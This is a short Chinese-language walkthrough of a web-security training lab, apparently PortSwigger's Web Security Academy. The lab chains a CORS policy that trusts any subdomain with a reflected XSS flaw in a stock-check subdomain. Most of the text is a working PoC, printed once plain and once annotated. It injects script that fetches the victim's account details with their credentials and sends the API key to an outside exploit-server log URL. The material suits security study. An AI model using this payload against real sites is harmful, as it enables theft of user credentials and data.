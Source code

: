 

![](images/7DD8892D9025408E891BFB01FF038D6Eclipboard.png)

当添加任意子域时，响应标头返回，说明cors信任任意子域



该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞

![](images/7577CAA55B6E425E98353F608BC6D42Aclipboard.png)



所以可以采用攻击链：

```javascript
子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站
```

poc:

```javascript
<script>
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

poc解释：

```javascript
<script>
//子域触发xss，xss访问主域敏感信息
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/
   ?productId=4
   //采用原生js http请求将获取到的内容，保存到主机
   <script>var req = new XMLHttpRequest(); 
   req.onload = reqListener; 
   //访问敏感信息
   req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); 
   req.withCredentials = true;
   req.send();function reqListener() {
       //携带敏感信息，get请求访问主机，主机log日志即可出现用户apikey
   location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };
   %3c/script>
   &storeId=1"
</script>
```

